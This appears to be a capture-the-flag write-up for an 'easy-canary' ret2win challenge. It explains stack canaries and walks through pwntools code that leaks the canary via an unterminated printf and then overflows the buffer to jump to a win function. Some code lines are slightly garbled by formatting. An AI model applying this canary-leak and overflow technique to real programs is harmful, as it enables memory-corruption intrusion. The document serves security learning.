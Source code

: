 This challenge consisted of a ret2win, with stack canaries implemented.

Prerequisites:
Know how buffer overflows work.

What are stack canaries?
The term comes from the historical use of canaries in coal mines. Since canaries are more vulnerable to toxic gases than humans are, coal miners would bring canary birds with them. When the canary died, they would know that they would also died soon and could safely evacuate the mine.
Stack canaries are "secret" values placed on the stack just before the return address. Attackers usually have the goal of changing the return address with a BOF (buffer overflow), but to do that, the canary must be overwritten as well.
So compilers insert code to the following:

1.Place a random canary value (at program startup) on the stack.
2.Check the canary before returning from a function.
3.If the canary is corrupted, terminate the program (usually with via \_\_stack_chk_fail()).

For more information, check out this article: https://ctf101.org/binary-exploitation/stack-canaries/

What was the vulnerability?
In easy-canary there is a buffer-overflow opportunity to buf. The buf has a size of 40 bytes, but we can insert 256 bytes. This leads us to try to overwrite the return address with a simple BOF. However, since the canary is present, a simple BOF won't work, the program will just crash, because the canary value won't stay the same.

Just a bit more theory:
Before we dive into the exploit we need to understand how the printf() works in C.
Imagine we have a sentence like this:
"Hey we are Capitão Sapinhas and we are a ctf team we love to do ctfs"
What's missing here? Punctuation! If we asked someone to read the first sentence they would not know that it stops at "ctf team" because there is no period.
The way that printf() works is exactly the same. For printf() to know when to stop printing stuff it needs to have a "period", in this case a null byte "\x00". Strings are null terminated (ex: "car\x00"), so functions like printf() know where to stop printing data and not reveal any sensitive information.

Now that we have that out of the way we can understand the exploit.

First part:

io.sendlineafter(b'> ', b'1')
payload = \x00 \* 40 + b"x"
io.send(payload)

In this snippet all we do is fill the buffer with 40 null bytes, and one "x".
Visually speaking
Before the attack:
[buffer(40 bytes)][canary(eg:"\x00\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]
After the attack:
[buffer(filled)][canary(eg:"x\xFF\xFF\xFF\xFF\xFF\xFF\xFF)][returnaddress]

The printf function, instead of stopping printing at the canary, since there is no null byte, it will actually print the canary!

io.sendlineafter(b'> ', b'2')
io.recvuntil(payload)
canary = u64(b'\0' + io.recv(7))
log.info(f'{canary = :#0x}')

We print the actual canary with the "Printf your name" function. We have the canary!! Now all we have to do is a buffer overflow but replacing the canary with the value we know so that the program won't crash.

win = elf.symbols["win"]
print(hex(win))

payload2 = b"a" _ 40 + p64(canary) + b"b" _ 8 + p64(win+4)
print(payload2)

io.sendline(b"1")
io.recv()
io.sendline(payload2)
io.recv()
io.sendline(b"3")
io.interactive()

payload2 is filling the buffer, inserting the canary and changing the return address to the win function.
When we exit, the program will return to the win function.
